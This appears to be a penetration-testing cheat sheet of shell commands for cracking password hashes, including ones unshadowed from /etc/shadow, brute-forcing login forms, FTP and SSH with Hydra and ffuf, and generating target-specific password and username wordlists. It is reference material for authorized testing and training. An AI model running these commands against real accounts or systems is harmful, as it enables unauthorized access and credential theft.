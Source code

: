 ## Password Cracking
### John The Ripper
#### Crack hash
```bash
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
```
#### Cracking `/etc/shadow`
```bash
unshadow shadow.txt passwd.txt > unshadowed.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
### Hashcat

#### Crack Hash
```bash
hashcat -m hashmode_id pw_hash.txt /usr/share/wordlist/rockyou.txt
```
Learn more about hashmodes [here](https://hashcat.net/wiki/doku.php?id=example_hashes).
### Identify Hash Type
```bash
hash-identifier
```

## Brute Forcing / Dictionary Attack
### Hydra
#### HTML Form
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt target.com http-form-post "/auth/login.php:username=^USER^&password=^PASS^:Invalid username/password combination." -o results.txt -vV
```
#### HTML Form with Fail and Success String
```bash
hydra -L usernames.txt =P /usr/share/wordlists/rockyou.txt target.com -s 8080 http-form-post "/auth/login.php:username=^USER^&password=^PASS^:F=Invalid credentials:S=Login success.:H=Cookie: PHPSESSID=1234abcd" -o results.txt -vV
```
> Note: If results are not showing, such as the page only refreshes if credentials dont match, we can just use an HTML tag as follows: `F=<form name='login'`.
#### FTP
```bash
hydra -L usernames -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ftp -s 10021 -o results.txt -vV
```
> Note: We can use the `-C` option for combined credential wordlists (i.e `hydra -C combined-http-auth.txt 10.10.10.10 -s 8080 http-get -o results.txt -vV`)
#### SSH
```bash
hydra -l ssh-admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh -o results.txt -vV
```
### Ffuf
#### Single Wordlist
```bash
ffuf -w wordlist.txt -u <http://target.com/login> -X POST -d "username=admin&password=FUZZ" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```
#### Multiple Wordlist
```bash
ffuf -w wordlist.txt:USER,wordlist.txt:PASS -u <http://target.com/login> -X POST -d "username=USER&password=PASS" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```
## Custom Wordlist
### Generate Password Wordlist Using Hashcat Rules
```bash
hashcat --stdout raw_pw.txt -r /usr/share/hashcat/rules/best64.rule > output.txt
```
### Generate Password Wordlist Using Cupp
```bash
cupp -i # interactive; just follow it
```
### Generate Username Wordlist Using Username-Anarchy
```bash
git clone https://github.com/urbanadventurer/username-anarchy.git

./username-anarchy Bill Gates > bill.txt
```

We can also use tools like [rsmangler](https://github.com/digininja/RSMangler) or [The Mentalist](https://github.com/sc0tfree/mentalist) to add as many alterations and permutations as possible into our wordlist.

Additionally, we can then use `sed` to further customize the generated wordlist to follow the target's password policy. For example:
```bash
sed -ri '/^.{,7}$/d' custom-password.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' custom-password.txt # remove no special chars
sed -ri '/[0-9]+/!d' custom-password.txt            # remove no numbers
```